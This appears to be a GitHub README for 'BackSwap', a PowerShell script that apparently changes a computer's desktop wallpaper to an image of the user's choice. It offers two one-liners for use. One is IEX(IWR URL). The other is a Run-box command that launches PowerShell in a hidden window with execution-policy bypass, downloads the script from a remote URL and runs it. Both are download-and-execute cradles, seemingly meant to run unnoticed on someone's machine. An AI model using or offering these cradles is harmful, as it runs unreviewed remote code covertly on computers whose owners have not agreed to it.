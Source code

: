 # BackSwap
Made by VBV11

# How to add ur own image

Go to BS.ps1 and change the `"UR OWN IMAGE URL"`

![image](https://github.com/VBV11/BackSwap/assets/104235290/ed41590e-4542-44e4-a2b9-cb9e2bd77571)




# One line command in powershell

(Change the URL to ur own URL of the code) 

+ IEX(IWR `URL`)

EXAMPLE

`IEX(IWR https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1)`

![image](https://github.com/VBV11/BackSwap/assets/104235290/013ead12-596d-47a9-8cec-05ba71834d2d)


# Run box command

(Change the URL to ur own URL of the code) 

+ powershell -w h -NoP -NonI -Exec Bypass $pl = iwr `URL`?dl=1; invoke-expression $pl

EXAMPLE

`powershell -w h -NoP -NonI -Exec Bypass $pl = iwr https://raw.githubusercontent.com/VBV11/BackSwap/main/BS.ps1?dl=1; invoke-expression $pl`

![image](https://github.com/VBV11/BackSwap/assets/104235290/e79c7083-6a1a-432f-aa79-9c666d991143)


